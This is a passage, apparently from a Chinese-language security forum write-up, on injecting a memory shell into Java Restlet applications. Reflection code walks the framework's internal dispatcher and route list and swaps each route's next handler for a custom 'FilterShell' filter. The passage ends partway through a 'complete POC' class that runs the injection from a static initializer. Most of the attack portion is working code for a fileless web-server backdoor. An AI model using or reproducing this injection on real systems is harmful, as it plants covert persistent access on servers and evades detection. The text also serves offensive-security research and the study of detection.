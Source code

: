 ```java
/hello -> MemortShellFilter -> MyCustomFilter -> MyResource.clas
```

通过下面的反射代码获取路由节点中next属性的内容，得到的obj就是原有的处理器链

```java
Context ctx = Context.getCurrent();
Object obj = ctx.getClientDispatcher();

Field field = obj.getClass().getDeclaredField("childContext");
field.setAccessible(true);
obj = field.get(obj);

field = obj.getClass().getDeclaredField("child");
field.setAccessible(true);
obj = field.get(obj);

field = obj.getClass().getSuperclass().getDeclaredField("inboundRoot");
field.setAccessible(true);
obj = field.get(obj);

field = obj.getClass().getDeclaredField("routes");
field.setAccessible(true);
obj = field.get(obj);

// 这里的for循环是遍历routes列表下的所有路由，即为所有路由的处理链都添加一个新的过滤器
// 也可以根据自己的需要单独为某个路由添加
for (Object route: (RouteList) obj) {
    field = route.getClass().getSuperclass().getSuperclass().getDeclaredField("next");
    field.setAccessible(true);
    obj = field.get(route);       //得到原有的处理器链

    //将next的属性的值设置为我们自定义的filter处理器
    field.set(route, new FilterShell());        
}
```

下图就是修改了next属性后的，可以看到已经成功将next下一处理器设置为自定义了FilterShell对象

![image-20240831123955065.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-eca6f1dd9f7cf40f2e3d6f26acca315053544e96.png)

接着将原有的处理链obj添加到FilterShell对象的next属性中就行，下面是添加前后的next属性的对比

![image-20240831124218055.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-4e441d0db91e1937096e99964de5e6019f089a6d.png)

![image-20240831161210262.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-517dbdaa2ffe1c3c5d626371bbd2b826c5c65064.png)

```java
// 完整POC
import org.restlet.Application;
import org.restlet.Context;
import org.restlet.Request;
import org.restlet.Response;
import org.restlet.routing.Filter;
import org.restlet.util.RouteList;

import java.lang.reflect.Field;

public class MemoryFilter extends Application {
    static {
        try {
            Context ctx = Context.getCurrent();
            Object obj = ctx.getClientDispatcher();

            Field field = obj.getClass().getDeclaredField("childContext");
```